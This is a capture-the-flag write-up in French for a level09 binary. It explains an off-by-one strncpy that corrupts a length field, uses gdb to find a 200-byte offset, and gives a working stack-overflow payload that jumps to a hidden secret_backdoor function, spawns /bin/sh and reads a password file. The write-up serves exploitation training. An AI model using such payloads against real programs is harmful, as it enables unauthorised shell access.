# level 09 /bonus

On trouve à la racine un binaire level09. Il récupère un username et un message.

En analysant le binaire, on se rend compte de la présence d'une structure :

```c
struct 	s_struct
{
    char message[128];
    char username[40];
    unsigned int i;
};
```
On remarque aussi la présence d'une fonction appelée **secret_backdoor**:

```gdb
(gdb) > i functions
All defined functions:

Non-debugging symbols:
...
0x000055555555488c  secret_backdoor
0x00005555555548c0  handle_msg
0x0000555555554932  set_msg
0x00005555555549cd  set_username
0x0000555555554aa8  main
```

> La fonction **secret_backdoor** va prendre un input dans stdin puis exécuter une fonction **system**.

De plus, on peut voir un **strncpy** dans **set_username** d'une taille de 41 de **username** vers notre structure alors que celle ci est de 40.

De plus, on peut voir un **fget** d'une taille de 1024 dans une variable qui ne fait que 128.

Pour finir, dans cette même fonction, on peut voir un **strncpy** :

```c
    strncpy(s->message, message, s->i);
```

Avec tout ces éléments, on suppose qu'on peut donc écrire un octet sur **i** grâce au 41ème caractère qui overflow depuis **username** (grâce à leur placement dans la structure) afin de faire un buffer overflow dans la variable **message** dans cette même structure pour écraser l'**eip** avec l'adresse de **secret_backdoor**.

Il ne nous manque plus qu'a trouver l'**offset** et nous pourront génerer un ret2secret_backdoor.

On a donc posé un breakpoint au **strncpy** pour récupérer l'adresse du début du buffer et un breakpoint avant le return de la fonction **handle_msg** afin de récuperer l'adresse de l'eip.

On les soustrait pour obtenir l'offset.

```gdb
(gdb) > b *set_msg +153
Breakpoint 1 at 0x5555555549cb
(gdb) > b *handle_msg +100
Breakpoint 2 at 0x555555554924
(gdb) > run <<< $(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 100")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level09/level09 <<< $(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 100")
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude

Breakpoint 1, 0x00005555555549cb in set_msg ()
(gdb) > x/100x $rbp
0x7fffffffe4f0: 0xffffe5c0      0x00007fff      0x55554924      0x00005555
0x7fffffffe500: 0x41414141      0x41414141      0x41414141      0x0a414141
0x7fffffffe510: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe520: 0x00000000      0x00000000      0x00000000      0x00000000
...

(gdb) c
Continuing.

Breakpoint 2, 0x0000555555554924 in handle_msg ()
(gdb) > i f
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x555555554924 in handle_msg; saved rip 0x0
 called by frame at 0x7fffffffe5d8
 Arglist at 0x7fffffffe5c0, args:
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
(gdb) > p 0x7fffffffe5c8 - 0x7fffffffe500
$1 = 200
```

> On a donc un offset de 200.

Il suffit de rajouter l'adresse de la fonction **secret_backdoor**, un '\n' pour simuler l'entrée d'input, et enfin '/bin/sh' qui sera executé par **system**.

Il suffit donc d'inserer 208 (offset + 8 bytes pour l'adresse) dans notre `unsigned int` de notre structure et d'insérer l'adresse au niveau de l'**eip**.

`\xd0 = 208`


```shell
(python -c "print 'A' * 40 + '\xd0' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh' "; cat) | ./level09
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```